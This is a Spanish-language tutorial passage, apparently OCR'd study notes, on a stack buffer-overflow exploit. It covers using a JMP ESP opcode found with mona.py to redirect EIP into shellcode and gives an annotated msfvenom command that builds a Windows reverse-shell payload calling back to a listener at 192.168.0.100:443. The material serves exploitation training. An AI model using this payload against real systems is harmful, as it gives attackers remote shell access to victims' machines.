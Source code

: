 
# Búsqueda de OpCodes y cargar Shellcode

Una vez que se ha generado el shellcode malicioso y se han detectado los badchars, el siguiente paso es hacer que el flujo del programa entre en el shellcode para que sea interpretado. La idea es hacer que el registro EIP apunte a una dirección de memoria donde se aplique un **opcode** que realice un salto al registro **ESP** (**JMP ESP**), que es donde se encuentra el shellcode. Esto es así dado que de primeras no podemos hacer que el EIP apunte directamente a nuestro shellcode.
    
Para encontrar el opcode **JMP ESP**, se pueden utilizar diferentes herramientas, como **mona.py**, que permite buscar opcodes en módulos específicos de la memoria del programa objetivo. Una vez que se ha encontrado el opcode ‘**JMP ESP**‘, se puede sobrescribir el valor del registro EIP con la dirección de memoria donde se encuentra el opcode, lo que permitirá saltar al registro ESP y ejecutar el shellcode malicioso.
    
La búsqueda de opcodes para entrar al registro ESP y cargar el shellcode es una técnica utilizada para hacer que el flujo del programa entre en el shellcode para que sea interpretado. Se utiliza el opcode JMP ESP para saltar a la dirección de memoria del registro ESP, donde se encuentra el shellcode.
    

## Creación del shellcode

Una vez eliminados los badchars, se puede crear el shellcode que proporcionará una reverse shell al ser insertado e interpretado en el ESP.

Para crear este shellcode se usará msfvenom:

```bash
msfvenom -p windows/shell_reverse_tcp 
--platform windows -a x86 LHOST=192.168.0.100 LPORT=443 
-f c -b '\x00\x0a\x0d' EXITFUNC=thread

-p # Indica el tipo de payload, se ingresa el SO y 
# cómo se proporcionará la shell. Los payloads 
# con "/meterpreter/" entablarán una reverse shell 
# para metasploit. En este caso se usa un payload que 
# permitirá usar netcat para obtener la shell.

--platform <OS> -a <x64/x86> # Indica la plataforma a la 
# que será insertado el payload y la arquitectura si es 
# 64 o 32 bits.

LHOST= # Indica que se enviará una reverse shell a una 
# dirección IP.
LPORT= # Indica el puerto por el cual se recibirá la 
# reverse shell

-f # Indica el formato que tomará el shellcode

-b # Indica los badchars a eliminar en el shellcode

EXITFUNC=thread # Sirve para crear un subproceso por el 
# cual se colgará la sesión con la máquina víctima.
# Sin esto, al terminar la sesión en la víctima, el 
# proceso crasheará y el servicio ya no estará disponible

# Comandos extra
-l payloads # Muestra una lista con todos tipos de 
# payloads disponibles
-l encoders # Muestra una lista con todos los encoders 
# disponibles
-e # Sirve para indicar un encoder
```
